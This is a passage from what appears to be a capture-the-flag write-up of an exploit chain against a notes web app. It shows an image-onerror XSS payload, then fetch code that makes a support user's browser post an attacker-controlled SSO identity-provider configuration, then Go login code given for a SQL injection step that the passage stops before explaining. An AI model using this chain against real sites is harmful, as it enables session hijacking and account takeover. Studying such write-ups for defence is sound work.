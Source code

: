 Which will result in the `onerror` callback to be executed as the resulting DOM element created would be `<img src=x onerror=alert(1)`.

The attacker can achieve this by modifying the base64 request sent when saving a note and inject their payload.

### Step 2 - XSS to IdP config submission

The XSS can be exploited by reporting the note containing the payload, this will lead the support user to visit it, giving the attacker full control over their browser.

The XSS can be used to submit an attacker controlled IdP configuration with the following JS code:

```js
fetch(
    '/api/support/faction/1/config',
    {
        method: 'POST',
        headers: {
            'X-NOTES-CSRF-PROTECTION': '1'
        },
        body: JSON.stringify({clientId:'%s',clientSecret:'%s',endpoint:'%s'})
    }
)
```

This allows the attacker to tap into the SSO flow and move onto the next step


### Step 3 - The SQLi

In `backend/auth/sso.go` the following code can be found:

```go
	info, err := ssoSession.Provider.UserInfo(ctx, &tokenProvider{token: oauth2Token})
	if err != nil {
		return "", err
	}

	// Extract custom claims
	var claims SSOClaims
	if err := info.Claims(&claims); err != nil {
		return "", errors.New("invalid claims: " + err.Error())
	}

	if claims.Email == nil {
		return "", errors.New("email not returned from IdP")
	}

	ban := database.GetBan(*claims.Email)
	if ban != nil {
		return "", errors.New("you got banned!")
	}

	user := database.FindUserWithEmail(*claims.Email)
	if user == nil {
		user = RegisterUser(claims, ssoSession.FactionID)
	} else {
		if user.FactionID != uint64(ssoSession.FactionID) {
			return "", errors.New("wrong faction buddy")
		}
		log.Println("Logged in!", user.Email)
	}

	return GenerateToken(user, 1800)
```
